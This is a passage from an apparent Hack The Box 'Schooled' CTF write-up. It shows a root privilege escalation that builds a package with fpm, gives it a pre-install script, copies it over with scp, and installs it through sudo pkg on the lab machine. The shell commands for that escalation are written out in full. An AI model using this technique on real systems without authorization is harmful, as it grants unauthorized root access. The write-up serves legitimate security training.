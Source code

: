 ## Package Exploit

That was easy. We see straight away that we can install packages as root. GTFOBins has an article [here](https://gtfobins.github.io/gtfobins/pkg/) on how to exploit this.

If using Kali you first need to install fpm from [here](https://github.com/jordansissel/fpm):

```text
┌──(root💀kali)-[~/htb/schooled]
└─# git clone https://github.com/jordansissel/fpm.git
Cloning into 'fpm'...
remote: Enumerating objects: 13589, done.
remote: Counting objects: 100% (399/399), done.
remote: Compressing objects: 100% (198/198), done.
remote: Total 13589 (delta 224), reused 325 (delta 197), pack-reused 13190
Receiving objects: 100% (13589/13589), 2.66 MiB | 3.50 MiB/s, done.
Resolving deltas: 100% (6507/6507), done.

┌──(root💀kali)-[~/htb/schooled/fpm]
└─# gem install fpm                                  
Fetching mustache-0.99.8.gem
Fetching insist-1.0.0.gem
Fetching dotenv-2.7.6.gem
Fetching clamp-1.0.1.gem
<SNIP>
Done installing documentation for stud, mustache, insist, dotenv, clamp, cabin, pleaserun, git, backports, arr-pm, fpm after 6 seconds
11 gems installed
```

Following the GTFOBins post we create our malicious package. If it works when installed on the box we should see the id command runs as root:

```text
┌──(root💀kali)-[~/htb/schooled/fpm]
└─# TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
```

Then SCP over to the box:

```text
┌──(root💀kali)-[~/htb/schooled/fpm]
└─# scp x-1.0.txz jamie@10.10.10.234:/tmp/
Password for jamie@Schooled:
x-1.0.txz       100%  480    22.8KB/s   00:00
```

Switching to the schooled server we can now install our package as root:

```text
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
pkg: No packages available to install matching './x-1.0.txz' have been found in the repositories
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update /tmp/x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
```